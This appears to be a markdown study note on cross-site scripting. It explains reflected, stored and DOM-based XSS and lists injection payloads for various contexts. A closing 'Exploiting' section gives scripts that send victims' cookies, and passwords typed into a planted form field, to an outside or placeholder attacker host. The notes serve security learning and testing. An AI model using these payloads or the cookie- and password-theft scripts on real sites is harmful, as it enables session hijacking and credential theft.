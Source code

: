 ```yaml
---
title: XSS
category: web
order: 1
---
```





There are three main types of XSS attacks. These are:

### Reflected XSS
 where the malicious script comes from the current HTTP request.
### Stored XSS
where the malicious script comes from the website's database.
### DOM-based XSS
where the vulnerability exists in client-side code rather than server-side code.


# REFLECTED XSS
---

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.
Suppose a website has a search function which receives the user-supplied search term in a URL parameter:

https://insecure-website.com/search?term=gift

The application echoes the supplied search term in the response to this URL:

<p>You searched for: gift</p>
```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
```

# STORED - aka persistent or second-order XSS
---

Stored cross-site scripting  arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP request like the following:
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```
url encoded with xss:
```
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
```

# DOM - Based XSS
---

DOM-based XSS (also known as DOM XSS) arises when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data to a potentially dangerous sink within the DOM.

source: A source is a JavaScript property that contains data that an attacker could potentially control. An example of a source is location.search, which reads input from the query string.

sink: A sink is a function or DOM object that allows JavaScript code execution or rendering of HTML. An example of a code execution sink is eval, and an example of an HTML sink is document.body.innerHTML.


In principle, an application is vulnerable to DOM-based cross-site scripting if there is an executable path via which data can propagate from source to sink. In practice, different sources and sinks have differing properties and behavior that can affect exploitability, and determine what techniques are necessary. Additionally, the application's scripts might perform validation or other processing of data that must be accommodated when attempting to exploit a vulnerability. There are a variety of sources and sinks that are relevant to DOM-based vulnerabilities.

The document.write sink works with script elements, so you can use a simple payload such as:
```
document.write('... <script>alert(document.domain)</script> ...');
```

The innerHTML sink doesn't accept script elements on any modern browser, nor will svg onload events fire. This means you will need to use alternative elements like img or iframe. Event handlers such as onload and onerror can be used in conjunction with these elements. For example:
```
element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'
```

# CONTEXT
---
When testing for reflected and stored XSS, a key task is to identify the XSS context:

The location within the response where attacker-controllable data appears.
Any input validation or other processing that is being performed on that data by the application.

### XSS between html tags
```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

### xss in html tag attributes
When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:
```
"><script>alert(document.domain)</script>
```


More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:
```
" autofocus onfocus=alert(document.domain) x="
```

```
<a href="javascript:alert(document.domain)">
```

### xss in javascript

**Terminating the existing script**
In the simplest case, it is possible to simply close the script tag that is enclosing the existing JavaScript, and introduce some new HTML tags that will trigger execution of JavaScript. For example, if the XSS context is as follows:

```
</script><img src=1 onerror=alert(document.domain)>
```
**Breaking out of a JavaScript string**
```
'-alert(document.domain)-'
';alert(document.domain)//
```

**Making use of HTML-encoding**

When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around some input filters.
For example, if the XSS context is as follows:
```
<a href="#" onclick="... var input='controllable data here'; ...">
```
and the application blocks or escapes single quote characters, you can use the following payload to break out of the JavaScript string and execute your own script:
```
&apos;-alert(document.domain)-&apos;
```
The &apos; sequence is an HTML entity representing an apostrophe or single quote

**XSS in JavaScript template literals**
JavaScript template literals are string literals that allow embedded JavaScript expressions. The embedded expressions are evaluated and are normally concatenated into the surrounding text. Template literals are encapsulated in backticks instead of normal quotation marks, and embedded expressions are identified using the ${...} syntax.

For example, the following script will print a welcome message that includes the user's display name:

document.getElementById(‘message’).innerText = `Welcome, ${user.displayName}.`;

When the XSS context is into a JavaScript template literal, there is no need to terminate the literal. Instead, you simply need to use the ${...} syntax to embed a JavaScript expression that will be executed when the literal is processed. For example, if the XSS context is as follows:
```
<script>
...
var input = `controllable data here`;
...
</script>
```
then you can use the following payload to execute JavaScript without terminating the template literal:
```
${alert(document.domain)}
```

# EXPLOITING
---
## steal cookies
```
<script>
new Image().src="http://192.168.30.5:81/bogus.php?ouput="+document.cookie;
</script>
```
```
<script>
fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

## capture passwords
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
